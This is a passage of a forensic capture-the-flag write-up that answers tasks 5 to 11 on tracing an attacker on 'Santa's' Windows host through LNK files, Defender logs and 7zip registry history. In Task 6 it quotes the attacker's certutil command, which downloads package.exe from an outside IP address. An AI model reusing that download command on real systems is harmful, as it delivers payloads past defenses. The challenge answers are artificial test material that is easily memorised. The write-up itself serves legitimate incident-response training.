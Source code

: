 ## Task 5

Q: What is the filename of the file related to complaints from a department? The attacker found this on the share and also added it to the archive to exfiltrate.

`toys-dept.txt` - check other LNKs from the share location

## Task 6

Q: Windows Defender detected and stopped the first attempt of the attacker to download a file from their infrastructure. What is the full command that was executed by the attacker, which Defender detected and stopped?

`C:\Windows\System32\certutil.exe -urlcache -f http://3.110.162.216:8175/OpXmasDestroy/Collection/package.exe
` - check Windows Defender event logs

## Task 7

Q: The attacker proceeded to disable Windows real-time protection in order to evade defenses. When did this activity occur?

`2024-12-10 10:44:10` - from same logs as above

## Task 8

Q: The attacker copied a file and moved it from one location to another using 7zip. What is the full path where this file was moved to?

`C:\Users\Public\scan\` - from NTUSER.DAT registry hive, in 7z registry we have CopyHistory, which has this directory

## Task 9

Q: The attacker also enumerated a zip file using 7zip on Santa's desktop. What is the path of the folder related to the Christmas bonus present inside that zip?

`C:\Users\santa\Desktop\finance_christmas.zip\finance_christmas\Employees\performance_bonus_24\` - browse the same registry key as above and look at FolderHistory

## Task 10

Q: What was the name of the archive file created by 7zip?

`scan87x.zip` - from LNK in Recent files

## Task 11

Q: The attacker installed 7zip on the system and added some files to be archived. What was the last filesystem path visited by Krampus?

`C:\Program Files (x86)\WindowsPowerShell\Configuration\Registration` - same registry key as Task 9, just get the first folder in that list
